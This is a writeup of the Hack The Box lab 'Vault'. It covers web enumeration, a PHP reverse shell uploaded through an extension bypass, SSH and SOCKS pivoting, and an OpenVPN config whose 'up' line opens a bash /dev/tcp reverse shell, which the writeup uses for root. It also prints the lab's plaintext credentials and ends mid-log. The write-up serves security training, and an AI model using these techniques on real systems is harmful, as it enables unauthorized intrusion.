










---
search:
  exclude: true
---
# Vault Writeup

## Introduction :

Vault is a Medium linux box released back in November 2018. 

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      [0] nothing [ 10.10.14.24/23 ] [~]
      → sudo nmap -vvv -sTU -p- 10.10.10.109 --max-retries 0 -Pn --min-rate=1000 | grep Discovered
      Discovered open port 22/tcp on 10.10.10.109
      Discovered open port 80/tcp on 10.10.10.109
    
      {Ø} nothing [ 10.10.14.24/23 ] [~]
      → nmap -sCV -p22,80 10.10.10.109 -Pn
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-23 13:44 GMT
      Nmap scan report for 10.10.10.109
      Host is up (0.040s latency).
    
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey:
      |   2048 a6:9d:0f:7d:73:75:bb:a8:94:0a:b7:e3:fe:1f:24:f4 (RSA)
      |   256 2c:7c:34:eb:3a:eb:04:03:ac:48:28:54:09:74:3d:27 (ECDSA)
      |_  256 98:42:5f:ad:87:22:92:6d:72:e6:66:6c:82:c1:09:83 (ED25519)
      80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      |_http-title: Site doesn't have a title (text/html; charset=UTF-8).
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 19.11 seconds
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up port 80 running HTTP so let's make wfuzz run to see what directories we can find:
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~]
      → curl http://10.10.10.109
      **Welcome to the Slowdaddy web interface**
      
    
    
      We specialise in providing financial orginisations with strong web and database solutions and we promise to keep your customers financial data safe.
      
    
    
      We are proud to announce our first client: Sparklays
      (Sparklays.com still under construction)
    

The sparkley word from the homepage hints us to use wfuzz on that directory, so let's do so with the appropriate flags: 
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~]
      → sudo wfuzz -w /usr/share/wordlists/dirb/common.txt -z list,-.php-.html --hc 404,403 http://10.10.10.109/sparklays/FUZZFUZ2Z
    
      Warning: Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
    
      ********************************************************
      * Wfuzz 2.4.5 - The Web Fuzzer                         *
      ********************************************************
    
      Target: http://10.10.10.109/sparklays/FUZZFUZ2Z
      Total requests: 13842
    
      ===================================================================
      ID           Response   Lines    Word     Chars       Payload
      ===================================================================
    
      000000857:   200        13 L     38 W     615 Ch      "admin - .php"
      000000868:   200        13 L     38 W     615 Ch      "admin.php"
      000003694:   301        9 L      28 W     323 Ch      "design"
      000007040:   200        3 L      2 W      16 Ch       "login - .php"
    
      Total time: 159.4110
      Processed Requests: 13842
      Filtered Requests: 13838
      Requests/sec.: 86.83213
    
    

From here we have an interesting folder : /sparklays/admin.php which is a login panel: 

Looking at /design/design.html we have are redirected to an upload.php page: 

page onto which we cannot upload our reverse shell.php but we can with the appropriate .php5 extension: 

Now that we successfully uploaded it , we browse to it (/design/uploads/nihilist.php5) using curl: 

And we get access to the machine as www-data ! 

    
    
      www-data@ubuntu:/var/www/html/sparklays/design/uploads$ ls -lash /home
      ls -lash /home
      total 16K
      4.0K drwxr-xr-x  4 root root 4.0K Jul 17  2018 .
      4.0K drwxr-xr-x 24 root root 4.0K Jul 17  2018 ..
      4.0K drwxr-xr-x 19 alex alex 4.0K Nov  4  2018 alex
      4.0K drwxr-xr-x 18 dave dave 4.0K Sep  3  2018 dave
    

We seem to have 2 users on the box, but none of them seem to have the user.txt flag which hints us that we need to enumerate further and most probably guess that we'll have to do some pivoting. 
    
    
      www-data@ubuntu:/home$ ls
      ls
      alex
      dave
    
      www-data@ubuntu:/home$ cd dave
      cd dave
    
      www-data@ubuntu:/home/dave$ cd Desktop
      cd Desktop
    
      www-data@ubuntu:/home/dave/Desktop$ ls -lash
      ls -lash
      total 20K
      4.0K drwxr-xr-x  2 dave dave 4.0K Sep  3  2018 .
      4.0K drwxr-xr-x 18 dave dave 4.0K Sep  3  2018 ..
      4.0K -rw-rw-r--  1 alex alex   74 Jul 17  2018 Servers
      4.0K -rw-rw-r--  1 alex alex   14 Jul 17  2018 key
      4.0K -rw-rw-r--  1 alex alex   20 Jul 17  2018 ssh
    
    

Those 3 files are interesting since they contain everything we need to login via ssh as the user dave: 
    
    
      www-data@ubuntu:/home/dave/Desktop$ cat Servers && cat key && cat ssh
      cat Servers && cat key && cat ssh
      DNS + Configurator - 192.168.122.4
      Firewall - 192.168.122.5
      The Vault - x
      itscominghome
      dave
      Dav3therav3123
    

` 

So we exit our reverse shell as www-data and ssh in as the user dave: 
    
    
      www-data@ubuntu:/home/dave/Desktop$ exit
      exit
      exit
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Vault]
      → ssh dave@10.10.10.109
      The authenticity of host '10.10.10.109 (10.10.10.109)' can't be established.
      ECDSA key fingerprint is SHA256:w4kateZsSozxs2REnC6QaP2oADamX33bSckexGsinVc.
      Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
      Warning: Permanently added '10.10.10.109' (ECDSA) to the list of known hosts.
      dave@10.10.10.109's password:
      Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-45-generic x86_64)
    
       * Documentation:  https://help.ubuntu.com
       * Management:     https://landscape.canonical.com
       * Support:        https://ubuntu.com/advantage
    
      222 packages can be updated.
      47 updates are security updates.
    
      Last login: Sun Sep  2 07:17:32 2018 from 192.168.1.11
      dave@ubuntu:~$ id
      uid=1001(dave) gid=1001(dave) groups=1001(dave)
    

From there on we need to head into the /var/www/html/sparklays directory to see the sourcecode of the pages we interacted with so far. 
    
    
      dave@ubuntu:~$ cd /var/www/html/sparklays
      dave@ubuntu:/var/www/html/sparklays$ ls
      admin.php  design  login.php  serversettings  sparklays-local-admin-interface-0001.php
      dave@ubuntu:/var/www/html/sparklays$ cat login.php
      access denied
    
    
      dave@ubuntu:/var/www/html/sparklays$ cat admin.php
      
    
    
      
              
    
    ## Please Login
    
    
              
    
    
      	  username
      	  
      	
    
    
              Password
              
              Login
    
            
      <****?php
      $username =$_GET["username"];
      $domain = $_SERVER["SERVER_NAME"];
      $requri = $_SERVER['REQUEST_URI'];
      if (($domain == "localhost") )  {
         Header( "Welcome Dave" );
         header("location: sparklays-local-admin-interface-0001.php
        ");
      }
    
      else if (($username == "dave")) {
        setcookie(sparklaysdatastorage.htb-unbreakable-cookie);
    
      }
    
      ?****>

Now as we saw in the previous files in dave's home directory, we have more machines on the same network which we can ping : 
    
    
      dave@ubuntu:/var/www/html/sparklays$ ping 192.168.122.4
      PING 192.168.122.4 (192.168.122.4) 56(84) bytes of data.
      64 bytes from 192.168.122.4: icmp_seq=1 ttl=64 time=1.32 ms
      64 bytes from 192.168.122.4: icmp_seq=2 ttl=64 time=0.591 ms
      64 bytes from 192.168.122.4: icmp_seq=3 ttl=64 time=0.509 ms
      ^C
      --- 192.168.122.4 ping statistics ---
      3 packets transmitted, 3 received, 0% packet loss, time 2005ms
      rtt min/avg/max/mdev = 0.509/0.807/1.321/0.364 ms
      dave@ubuntu:/var/www/html/sparklays$ ping 192.168.122.5
      PING 192.168.122.5 (192.168.122.5) 56(84) bytes of data.
      64 bytes from 192.168.122.5: icmp_seq=1 ttl=64 time=1.03 ms
      64 bytes from 192.168.122.5: icmp_seq=2 ttl=64 time=0.570 ms
      64 bytes from 192.168.122.5: icmp_seq=3 ttl=64 time=0.481 ms
      ^C
      --- 192.168.122.5 ping statistics ---
      3 packets transmitted, 3 received, 0% packet loss, time 2033ms
      rtt min/avg/max/mdev = 0.481/0.695/1.034/0.242 ms
    

Both the IPs are still up. the IP .5 is supposed to be the Firewall, and .4 is supposed to be the DNS configurator according to the previous files we found. so since we have access to netcat on this machine we can scan these 2 hosts for opened ports :
    
    
      dave@ubuntu:/var/www/html/sparklays$ nc -zv 192.168.122.4 1-65535 2>&1 | grep succeeded && \
      > nc -zv 192.168.122.5 1-65535 2>&1 | grep succeeded
      Connection to 192.168.122.4 22 port [tcp/ssh] succeeded!
      Connection to 192.168.122.4 80 port [tcp/http] succeeded!
    

So it looks like only 192.168.122.4 responded with 2 opened ports, we seem to have access to port 22 and 80. Now the problem here is, we do not have access to curl on the machine, so my initial thought was to make a ssh tunnel just like we did on [Hawk](29.md). But this case is different since this is not a specific port on the machine (127.0.0.1:port),in this case we need to be able to access an OTHER host through said tunnel: 

_Hawk SSH Tunnel:_
    
    
    The problem for Hawk was that we couldn't access a specific port remotely, but having SSH access to the target, we could create a SSH Tunnel in order to access that remote port from a local port.
    
    

` 
    
    
      ssh -L 8080:127.0.0.1:8082 daniel@10.10.10.102
    
    

Now that **127.0.0.1** part of the SSH tunnel refers to the **target** , therefore we can specify an ip address that the target has access to instead of his own localhost (127.0.0.1) ip address: 

_Vault SSH Tunnel:_
    
    
    With this command, we should be able to redirect the host's (192.168.122.4) http port (80) our target (10.10.10.109) can access, to our local (127.0.0.1) port 8083.
    
    

` 
    
    
      ssh -L 80:192.168.122.4:8083 dave@10.10.10.109
    
    

So to recapitulate :
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Vault]
      → ssh dave@10.10.10.109
      dave@10.10.10.109's password:
      Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-45-generic x86_64)
    
       * Documentation:  https://help.ubuntu.com
       * Management:     https://landscape.canonical.com
       * Support:        https://ubuntu.com/advantage
    
      222 packages can be updated.
      47 updates are security updates.
    
      Last login: Mon Mar 23 10:06:03 2020 from 10.10.14.24
      dave@ubuntu:~$ ping 192.168.122.4
      PING 192.168.122.4 (192.168.122.4) 56(84) bytes of data.
      64 bytes from 192.168.122.4: icmp_seq=1 ttl=64 time=0.629 ms
      64 bytes from 192.168.122.4: icmp_seq=2 ttl=64 time=0.450 ms
      64 bytes from 192.168.122.4: icmp_seq=3 ttl=64 time=0.551 ms
      ^C
      --- 192.168.122.4 ping statistics ---
      3 packets transmitted, 3 received, 0% packet loss, time 2027ms
      rtt min/avg/max/mdev = 0.450/0.543/0.629/0.075 ms
      dave@ubuntu:~$ nc -zv 192.168.122.4 80
      Connection to 192.168.122.4 80 port [tcp/http] succeeded!
      dave@ubuntu:~$ exit
      logout
      Connection to 10.10.10.109 closed.
    

once we ssh'd in and found the port 80 on the remote host 192.168.122.4 that our target(10.10.10.109) could access, we made a ssh tunnel (use dave's password to log in : Dav3therav3123) to access that port: 
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Vault]
      → ssh -L 80:192.168.122.4:8083 dave@10.10.10.109
      dave@10.10.10.109's password:
      bind [127.0.0.1]:80: Permission denied
      channel_setup_fwd_listener_tcpip: cannot listen to port: 80
      Could not request local forwarding.
      Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-45-generic x86_64)
    
       * Documentation:  https://help.ubuntu.com
       * Management:     https://landscape.canonical.com
       * Support:        https://ubuntu.com/advantage
    
      222 packages can be updated.
      47 updates are security updates.
    
      Last login: Mon Mar 23 10:08:02 2020 from 10.10.14.24
      dave@ubuntu:~$
    

And from there we should be able to access it in our browser, but it's not that easy, because as you can see we need the cannot connect to the host we're targeting:

Therefore we'll go for [Hipothermia's](https://hipotermia.pw/htb/vault) awesome solution which consists in using proxychains to create a SOCKS5 connection to 192.168.122.4 in order to be able to achieve a port forwarding. This is done in 5 steps :
    
    
      - ssh -fND 9999 (to have a background, dynamic port forwarding, ssh connection)
      - echo 'socks5 127.0.0.1 9999' >> /etc/proxychains.conf (adding the socks5 proxy)
      - curl http://192.168.122.4 && proxychains curl 192.168.122.4 (to verify it works)
      - Foxyproxy new Configuration (socks5, 127.0.0.1, 9999) and then use it
      - Browse to http://192.168.122.4:80 thanks to the socks5 port forwarding pivot
    

`  

Once we're all done we can access the webservice on 192.168.122.4 thanks to hipothermia's awesome socks5 configuration, although the DNS settings doesn't seem to get us anywhere so we check the VPN configuration and make wfuzz run in the background:
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~]
      → wfuzz -w /usr/share/wordlists/dirb/common.txt --hc 404,403 http://192.168.122.4/FUZZ
    
    

This doesn't work because we do not have access to the 192.168.122.4 host on normal settings, you guessed it, we need to use the proxychains lol 
    
    
      [0] nothing [ 10.10.14.24/23 ] [~]
      → proxychains wfuzz -w /usr/share/wordlists/dirb/common.txt --hc 404,403 http://192.168.122.4/FUZZ
    

` 

Our wfuzz scan picked up the notes webpage, which revealed to us the 123.ovpn and script.sh files so let's wget them: 
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Vault]
      → proxychains wget 192.168.122.4/123.ovpn
      ProxyChains-3.1 (http://proxychains.sf.net)
      --2020-03-24 09:58:48--  http://192.168.122.4/123.ovpn
      Connecting to 192.168.122.4:80... |S-chain|-<>-127.0.0.1:9999-<><>-192.168.122.4:80-<><>-OK
      connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 121
      Saving to: ‘123.ovpn’
    
      123.ovpn       100%     121  --.-KB/s    in 0s
    
      2020-03-24 09:58:48 (3.79 MB/s) - ‘123.ovpn’ saved [121/121]
    
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Vault]
      → proxychains wget 192.168.122.4/script.sh
      ProxyChains-3.1 (http://proxychains.sf.net)
      --2020-03-24 09:58:55--  http://192.168.122.4/script.sh
      Connecting to 192.168.122.4:80... |S-chain|-<>-127.0.0.1:9999-<><>-192.168.122.4:80-<><>-OK
      connected.
      HTTP request sent, awaiting response... 200 OK
      Length: 35 [text/x-sh]
      Saving to: ‘script.sh’
    
      script.sh      100%      35  --.-KB/s    in 0s
    
      2020-03-24 09:58:55 (1.96 MB/s) - ‘script.sh’ saved [35/35]
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Vault]
      → ls
      123.ovpn  nihilist.php  nihilist.php5  script.sh
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Vault]
      → cat 123.ovpn
      remote 192.168.122.1
      dev tun
      nobind
      script-security 2
      up "/bin/bash -c 'bash -i >& /dev/tcp/192.168.122.1/2323 0>&1'"%
    
      {Ø} nothing [ 10.10.14.24/23 ] [~/_HTB/Vault]
      → cat script.sh
      #!/bin/bash
      sudo openvpn 123.ovpn
    

Taking a look into 123.ovpn and script.sh we see that the script is about running the vpn connection with sudo privileges, which may be handy to get a shell as the administrator, and we see the 123.ovpn file sending a reverse shell connection to 192.168.122.1 on port 2323 which was the ip of the box we ssh'd into as dave as you can see: 
    
    
      [0] nothing [ 10.10.14.24/23 ] [~]
      → ssh dave10.10.10.109
    
      [0] nothing [ 10.10.14.24/23 ] [~]
      → proxychains ssh dave@127.0.0.1
      ProxyChains-3.1 (http://proxychains.sf.net)
      |S-chain|-<>-127.0.0.1:9999-<><>-127.0.0.1:22-<><>-OK
      The authenticity of host '127.0.0.1 (127.0.0.1)' can't be established.
      ECDSA key fingerprint is SHA256:w4kateZsSozxs2REnC6QaP2oADamX33bSckexGsinVc.
      Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
      Warning: Permanently added '127.0.0.1' (ECDSA) to the list of known hosts.
      dave@127.0.0.1's password:
    

We can connect to 10.10.10.109 as usual, but we can also do it through our proxychains connection, we can connect to it on the localhost address which refers to 10.10.10.109 (use dave's password to log in : Dav3therav3123) : 
    
    
      dave@127.0.0.1's password:
      Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-45-generic x86_64)
    
       * Documentation:  https://help.ubuntu.com
       * Management:     https://landscape.canonical.com
       * Support:        https://ubuntu.com/advantage
    
      222 packages can be updated.
      47 updates are security updates.
    
      Last login: Mon Mar 23 10:34:24 2020 from 10.10.14.24
    
      dave@ubuntu:~$ ifconfig | grep inet
                inet addr:10.10.10.109  Bcast:10.10.10.255  Mask:255.255.255.0
                inet6 addr: dead:beef::250:56ff:feb9:a468/64 Scope:Global
                inet6 addr: fe80::250:56ff:feb9:a468/64 Scope:Link
                inet addr:127.0.0.1  Mask:255.0.0.0
                inet6 addr: ::1/128 Scope:Host
                inet addr:192.168.122.1  Bcast:192.168.122.255  Mask:255.255.255.0
                inet6 addr: fe80::fc54:ff:fe3a:3bd5/64 Scope:Link
                inet6 addr: fe80::fc54:ff:fee1:7441/64 Scope:Link
                inet6 addr: fe80::fc54:ff:fe17:ab49/64 Scope:Link
                inet6 addr: fe80::fc54:ff:fec6:7066/64 Scope:Link
    
    

And here we see that our address is 192.168.122.1 on the 10.10.10.109 host, which is quite handy since the 123.ovpn file we found earlier points at that address on port 2323. So let's run a netcat listener on 192.168.122.1 and trigger the 123.ovpn file from the vpnconfig.php page:

And that's it ! we have been able to print out the user flag.

## **Part 3 : Getting Root Access**

Now you probably guessed it, we may be root on this box, but we do not have access to the root flag, we need to pivot yet again.
    
    
      root@DNS:/var/www/html# cat /root/root.txt
      cat /root/root.txt
      cat: /root/root.txt: No such file or directory
    
    

So we poke around dave's home directory and we find an interesting ssh file: 
    
    
      root@DNS:/var/www/html# cd /home
      cd /home
      root@DNS:/home# ls -lash
      ls -lash
      total 16K
      4.0K drwxr-xr-x  4 root root 4.0K Jul 17  2018 .
      4.0K drwxr-xr-x 22 root root 4.0K Jul 17  2018 ..
      4.0K drwxr-xr-x  4 alex alex 4.0K Jul 17  2018 alex
      4.0K drwxr-xr-x  5 dave dave 4.0K Sep  3  2018 dave
      root@DNS:/home# cd dave
      cd dave
      root@DNS:/home/dave# ls -lash
      ls -lash
      total 48K
      4.0K drwxr-xr-x 5 dave dave 4.0K Sep  3  2018 .
      4.0K drwxr-xr-x 4 root root 4.0K Jul 17  2018 ..
      4.0K -rw------- 1 dave dave   49 Sep  3  2018 .Xauthority
      4.0K -rw------- 1 dave dave    5 Sep  3  2018 .bash_history
      4.0K -rw-r--r-- 1 dave dave  220 Jul 17  2018 .bash_logout
      4.0K -rw-r--r-- 1 dave dave 3.7K Jul 17  2018 .bashrc
      4.0K drwx------ 2 dave dave 4.0K Jul 17  2018 .cache
      4.0K drwx------ 2 dave dave 4.0K Jul 17  2018 .gnupg
      4.0K -rw-r--r-- 1 dave dave  655 Jul 17  2018 .profile
      4.0K drwx------ 2 dave dave 4.0K Jul 17  2018 .ssh
         0 -rw-r--r-- 1 dave dave    0 Jul 17  2018 .sudo_as_admin_successful
      4.0K -rw-r--r-- 1 root root   19 Jul 17  2018 ssh
      4.0K -rw-rw-r-- 1 dave dave   33 Sep  3  2018 user.txt
      root@DNS:/home/dave# cat ssh
      cat ssh
      dave
      dav3gerous567
    

So we get dave's ssh credentials to the 192.168.122.4 host as you can see below : 
    
    
      dave/Dav3therav3123 (192.168.122.1) (also 10.10.10.109)
      dave/dav3gerous567  (192.168.122.4)
    

` 
    
    
      [0] nothing [ 10.10.14.24/23 ] [~]
      → ssh dave@10.10.10.109
      dave@10.10.10.109's password:
      Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-45-generic x86_64)
    
       * Documentation:  https://help.ubuntu.com
       * Management:     https://landscape.canonical.com
       * Support:        https://ubuntu.com/advantage
    
      222 packages can be updated.
      47 updates are security updates.
    
      Last login: Tue Mar 24 03:06:18 2020 from 127.0.0.1
    
    
      dave@ubuntu:~$ ssh dave@192.168.122.4
      dave@192.168.122.4's password:
      Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic i686)
    
       * Documentation:  https://help.ubuntu.com
       * Management:     https://landscape.canonical.com
       * Support:        https://ubuntu.com/advantage
    
      98 packages can be updated.
      50 updates are security updates.
    
    
      Last login: Mon Sep  3 16:38:03 2018
      dave@DNS:~$ sudo -l
      [sudo] password for dave:
      Matching Defaults entries for dave on DNS:
          env_reset, mail_badpass,
          secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
      User dave may run the following commands on DNS:
          (ALL : ALL) ALL
    

Onto which, we see that dave can run everything as root, so it's not a problem not having the root user on 192.168.122.4 we can just use dave's second password (dav3gerous567)
    
    
      dave@DNS:~$ cat /etc/hosts
      127.0.0.1	localhost
      127.0.1.1	DNS
      192.168.5.2	Vault
      # The following lines are desirable for IPv6 capable hosts
      ::1     localhost ip6-localhost ip6-loopback
      ff02::1 ip6-allnodes
      ff02::2 ip6-allrouters
    
    

Now from here we see something interesting which is a supposed 192.168.5.2 host referred to as "Vault" However we can't ping to it for some reason:
    
    
      dave@DNS:~$ ping -c 3 192.168.5.2
      PING 192.168.5.2 (192.168.5.2) 56(84) bytes of data.
    
      --- 192.168.5.2 ping statistics ---
      3 packets transmitted, 0 received, 100% packet loss, time 2016ms
    
      dave@DNS:~$ ping -c 3 Vault
      PING Vault (192.168.5.2) 56(84) bytes of data.
    
      --- Vault ping statistics ---
      3 packets transmitted, 0 received, 100% packet loss, time 1999ms
    
      dave@DNS:~$ which nmap
      /usr/bin/nmap
    

We could assume that host is blocking our ping request, to which thankfully we have nmap's -Pn to save ourselves the trouble, however for some reason it gives us this weird result of just 2 closed ports: 
    
    
      dave@DNS:~$ sudo /usr/bin/nmap 192.168.5.2 -Pn -f
    
      Starting Nmap 7.01 ( https://nmap.org ) at 2020-03-24 10:31 GMT
      mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
      Nmap scan report for Vault (192.168.5.2)
      Host is up (0.0020s latency).
      Not shown: 998 filtered ports
      PORT     STATE  SERVICE
      53/tcp   closed domain
      4444/tcp closed krb524
    
      Nmap done: 1 IP address (1 host up) scanned in 12.97 seconds
    
    

` 

the reason lies in /var/log/auth.log :
    
    
      sudo cat /var/log/auth.log
    
      Sep  2 15:07:45 DNS sudo: pam_unix(sudo:auth): authentication failure; logname=dave uid=1001 euid=0 tty=/dev/pts/0 ruser=dave rhost=  user=dave
      Sep  2 15:07:51 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/nmap 192.168.5.2 -Pn --source-port=4444 -f
      Sep  2 15:07:51 DNS sudo: pam_unix(sudo:session): session opened for user root by dave(uid=0)
      Sep  2 15:08:55 DNS sudo: pam_unix(sudo:session): session closed for user root
      Sep  2 15:09:01 DNS CRON[2459]: pam_unix(cron:session): session opened for user root by (uid=0)
      Sep  2 15:09:01 DNS CRON[2459]: pam_unix(cron:session): session closed for user root
      Sep  2 15:10:20 DNS sudo:     dave : TTY=pts/0 ; PWD=/home/dave ; USER=root ; COMMAND=/usr/bin/ncat -l 1234 --sh-exec ncat 192.168.5.2 987 -p 53
      Sep  2 15:10:20 DNS sudo: pam_unix(sudo:session): session opened for user root by dave(uid=0)
